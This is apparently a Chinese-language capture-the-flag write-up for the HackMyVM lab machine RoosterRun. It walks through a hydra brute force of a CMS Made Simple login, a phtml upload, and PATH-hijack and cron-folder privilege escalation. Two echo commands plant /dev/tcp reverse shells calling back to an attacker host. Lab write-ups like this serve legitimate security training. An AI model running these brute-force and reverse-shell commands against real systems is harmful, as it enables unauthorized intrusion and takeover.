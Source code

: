 # RoosterRun

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=RoosterRun

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 发现 CMS: CMS Made Simple version 2.2.9.1 找到登陆窗口 http://192.168.5.40/admin/login.php ，在 news 中看到了一个用户名 admin 进行一下爆破：

```
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -f http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"

[80][http-post-form] host: 192.168.5.40   login: admin   password: homeandaway
```

找到了管理员密码，登陆到系统，参照 https://www.exploit-db.com/exploits/48742 这里在 FileManager 中可以上传 pthml 文件，进而执行代码。

上传至 upload 文件夹上，然后访问，就会在 kali 上得到反弹的 shell。

发现这个 CMS 的数据库配置文件：

```
www-data@rooSter-Run:/var/www/html$ cat config.php
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'admin';
$config['db_password'] = 'j42W9kDq9dN9hK';
$config['db_name'] = 'cmsms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin';
```

但是这个密码不是用户 matthieu 的。

/opt 目录被设置了 acl，进行更详细查看：

```
getfacl -R -s -p / 2>/dev/null

# file: //usr/local/bin
# owner: root
# group: root
user::rwx
user:www-data:rwx
user:matthieu:r-x
group::---
mask::rwx
other::---
```

发现 www-data 用户可以修改 /usr/local/bin , 同时 /usr/local/bin 在 $PATH 中第二项。

在 /home/matthieu/中发现一个脚本 StaleFinder ，其中的 echo 没有使用全局路径，在 /usr/bin 中有 echo，但是 /usr/local/bin 这个在 PATH 中比/usr/bin 位置靠前，可以进行命令劫持。

盲猜 StaleFinder 脚本应该是某个用户执行的定时任务，这里看到第一行 #!/usr/bin/env bash ，会从 path 中查找 bash，这里可以劫持 bash 命令：

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /usr/local/bin/bash
chmod +x /usr/local/bin/bash
```

同时在 kali 上创建监听，等待反弹。

拿到了 user flag:

```
matthieu@rooSter-Run:~$ cat user.txt
32af3c9a9cb2fb748aef29457d8cff55
```

在 /opt/maintenance 中发现 backup.sh 文件，pre-prod-tasks 和 prod-tasks 文件夹对其他用户有写权限，最后执行 /usr/bin/run-parts /opt/maintenance/prod-tasks 中的脚本文件。

向 pre-prod-tasks 中写入 sh 脚本:

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /opt/maintenance/pre-prod-tasks/run.sh; chmod +x /opt/maintenance/pre-prod-tasks/run.sh
```

/usr/bin/run-parts 默认情况下执行的脚本不能带扩展名(如果没有给出 --lsbsysinit 选项或 --regex 选项，则名称必须完全由 ASCII 大写和小写字母、ASCII 数字、ASCII 下划线和 ASCII 减号连字符组成)，所以在文件执行 cp 后，执行 mv 操作去掉 sh 后缀：

```
matthieu@rooSter-Run:/opt/maintenance/prod-tasks$ mv run.sh run
```

等待 1 分钟，反弹 shell 执行，拿到了最终的 flag:

```
cat root.txt
670ff72e9d8099ac39c74c080348ec17
```
